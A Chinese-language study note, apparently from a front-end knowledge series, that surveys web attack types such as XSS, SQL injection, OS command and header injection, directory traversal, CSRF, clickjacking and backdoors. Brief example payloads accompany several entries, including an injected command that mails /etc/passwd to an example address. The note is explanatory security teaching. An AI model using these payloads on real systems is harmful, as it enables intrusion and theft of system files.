 # Web攻击

标签（空格分隔）： 前端知识体系

---

## 注入攻击

攻击者利用输入注入攻击代码

### XSS

Cross-Site Scripting, 跨站脚本攻击

* 应用程序使用未转义的输入构成页面
* 攻击者往该页面中注入攻击代码
* 攻击者诱使用户访问有陷阱的页面
* 攻击代码自动运行，窃取用户的个人信息

```
// $q为输入
<input type="text" name="ID" value="$q" />

// 注入"><script src="attack.js"></script><span s="
<input type="text" name="ID" value=""><script src="attack.js"></script><span s=""/>
```

### SQL注入攻击

* 应用程序使用未转义的输入构成SQL
* 攻击者注入非法SQL攻击数据库

```
// $q为输入
SELECT * FROM bookTbl WHERE author = '$q' and flag = 1

// 注入abc' --
SELECT * FROM bookTbl WHERE author = 'abc' --' and flag = 1
```

### OS命令注入

* 应用程序使用未转义的输入构成OS命令
* 攻击者注入非法的OS命令攻击服务器

```
// $q为输入
open（MAIL, "| /user/sbin/sendmail $q"）

// 注入; cat /etc/passwd | mail hack@example.jp
open（MAIL, "| /user/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp"）
```

### HTTP首部注入攻击

* 应用程序使用未转义的输入构成响应
* 攻击者注入非法的响应首部或主体
* 攻击者诱使用户访问有陷阱的页面攻击用户

```
// $q为输入
Location: http://www.example.com/a.cgi?q=$q

// 注入101\r\nSet-Cookie:SID=123
Location: http://www.example.com/a.cgi?q=101
Set-Cookie:SID=123

// 注入101\r\n<html><head><title>之后，响应显示的网页地址<!--
Location: http://www.example.com/a.cgi?q=101

<html><head><title>之后，响应显示的网页地址<!--（原来的首部和主体被注释）
```

### 邮件首部注入攻击

* 应用程序使用未转义的输入构成邮件首部
* 攻击者注入非法的邮件首部篡改邮件

### 目录遍历攻击

* 应用程序使用未转义的输入构成文件路径
* 攻击者注入非法的文件路径访问任意文件

```
// $q为输入
http://example.com/read.php?log=0401.log

// 注入../../etc/passwd
http://example.com/read.php?log=../../etc/passws
```

## 设计漏洞

### 强制浏览

在公开目录下，浏览非公开的文件

* 从公开的文件推测可能存在的文件
* 直接通过URL访问无访问权限的文件

### 不正确的错误处理

错误信息中包含对攻击者有用的信息

* Web应用抛出的错误信息
* 数据库等系统抛出的错误信息

### 开放重定向

重定向到指定的任意URL

```
http://example.com/?redirect=http://www.tricorder.jp
```

## 会话管理漏洞

### 会话劫持

攻击者通过某种手段拿到了用户的会话ID，并使用此会话ID伪装成用户

* 通过非正规的生成方法推测会话ID
* 通过窃听或XSS攻击盗取会话ID

### CSRF

Cross-Site Request Forgeries, 跨站点请求伪造

* 用户已登录A网站
* 攻击者诱使用户访问B网站
* 用户访问B网站时，会自动往A网站发可以带上A网站Cookie的跨域请求，利用用户的权限执行某些操作

## 其他漏洞

### 密码破解

算出密码，突破认证

* 穷举法
* 字典攻击
* 利用别处泄漏的ID密码

### 点击劫持

* 将一个iframe页面作为透明层覆盖在用户想点击的位置
* 用户点击时实际点击的是iframe页面的位置

### DoS攻击

Denial of Service attack， 拒绝服务攻击

* 利用过量访问请求造成资源过载
* 通过攻击安全漏洞使服务停止

### 后门程序

* 开发阶段作为Debug调用的后门程序
* 开发者为了自身利益植入的后门程序
* 攻击者通过某种方法设置的后门程序
